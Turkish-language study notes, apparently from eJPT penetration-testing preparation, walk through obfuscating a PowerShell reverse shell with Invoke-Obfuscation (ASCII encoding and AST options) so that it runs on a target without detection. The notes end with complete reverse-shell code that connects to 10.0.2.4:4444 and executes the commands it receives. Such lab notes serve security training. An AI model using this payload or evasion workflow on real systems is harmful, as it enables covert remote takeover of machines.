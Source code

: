 ![[Pasted image 20240404235935.png]]

# Burada Önemli Olan Obfuscation Teknikleri
![[Pasted image 20240405000056.png]]
### Biz burada AST 'yi kullanacağız

##### 1. Şimdi #payloads-all-the-things den aldığımız powershell reverse shell code'u kopyalıyoruz.

##### 2. Bunu bir text editore kopyalıyoruz.
![[Pasted image 20240405000446.png]]

##### 3. Tırnak işaretine kadar olan bölümden kurtuluyoruz.
![[Pasted image 20240405000534.png]]
![[Pasted image 20240405001134.png]]
### shell.ps1 olarak kaydettik

##### 4. Invoke-Obfuscation> SET SCRIPTPATH /home/kali/Documents/eJPT/obfuscation/shell.ps1

![[Pasted image 20240405001358.png]]

### 5. Bu örnek mesela encoding yapacaksak ENCODING seçip bizi yeni bir menuye yönlendiriyor oradan devam ediyoruz. 
![[Pasted image 20240405001624.png]]

### 1 'i seçtim ASCII 'yi 
![[Pasted image 20240405001855.png]]
### Bu result'ı kopyalayıp kaydediyoruz ve hedef sisteme transfer edip çalıştırdığımızda yakalanmadan bize shell veriyor.

![[Pasted image 20240405001959.png]]

---
## Burada geri çıkmak zor oldu help menusunu çalıştırdık. BACK ile geri menuye geldik ve tekrardan
SET SCRIPTPATH /home/kali/Documents/eJPT/obfuscation/shell.ps1

## Bu komutu çalıştırdık.

##### 5. AST yi seçtik
![[Pasted image 20240405002402.png]]
### ALL ve Arkasından 1 seçeneğini seçtik
![[Pasted image 20240405002511.png]]
```
$client = New-Object System.Net.Sockets.TCPClient('10.0.2.4',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close() 

```